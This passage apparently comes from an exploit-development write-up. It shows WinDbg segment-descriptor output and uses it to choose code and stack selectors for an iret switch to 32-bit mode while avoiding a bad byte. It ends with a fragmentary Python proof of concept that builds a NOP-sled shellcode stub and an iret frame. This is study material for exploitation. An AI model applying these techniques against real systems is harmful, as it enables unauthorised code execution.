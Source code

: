 These should be the entries for the kernel. Then we have 2 more values following:

```
0: kd> dg 0x20
                                                    P Si Gr Pr Lo
Sel        Base              Limit          Type    l ze an es ng Flags
---- ----------------- ----------------- ---------- - -- -- -- -- --------
0020 00000000`00000000 00000000`ffffffff Code RE Ac 3 Bg Pg P  Nl 00000cfb
0: kd> dg 0x28
                                                    P Si Gr Pr Lo
Sel        Base              Limit          Type    l ze an es ng Flags
---- ----------------- ----------------- ---------- - -- -- -- -- --------
0028 00000000`00000000 00000000`ffffffff Data RW Ac 3 Bg Pg P  Nl 00000cf3
```

These are the `user code and stack descriptors` ranging from 0 to 0xffffffff. The 2 least significant bits of the selector value are being used for RPL (Requested Privilege Level) or CPL (Current Privilege Level). Because we are looking to stay in ring3 we have to set these to 1 – so 0x20 for the code segment becomes 0x23 and 0x28 becomes 0x2b.

CS and SS are only used in 32-bit mode (see: <https://nixhacker.com/segmentation-in-intel-64-bit/>) or lower – by supplying values there for our `iret` we will switch to 32-bit mode. With this bit of theory out of the way we still have a problem: 0x2b is a bad byte and will not end up on the stack! So we can choose 0x23 for the code segment but have to be creative on what to use for the stack segment.

Any value that will not crash on `iret` is fine in theory so it has to be `Data RW` but we don’t necessarily need a valid stack base and limit if we can avoid using the stack. After inspecting more values and seeing which ones do and don’t crash we eventually find `0x53`:

```
0:000> dg 0x53
                                                    P Si Gr Pr Lo
Sel        Base              Limit          Type    l ze an es ng Flags
---- ----------------- ----------------- ---------- - -- -- -- -- --------
0053 00000000`0060a000 00000000`00000fff Data RW Ac 3 Bg By P  Nl 000004f3
```

From the output, we can see that base and limit are not really useful for us but if we avoid the stack we should be fine (base and limit are also somewhat random and can change at reboots). Now it’s time to update the PoC:

## Poc 0x02

```python
...
sc =  b""
sc += b"\xcc"
sc += b"\x90"*100
...
iret = b""
iret += p32(0x10000014) 	
iret += p32(0x23) 			 
iret += p32(0x00010202) 	
iret += p32(0x10000400) 	
iret += p32(0x53)
...
```
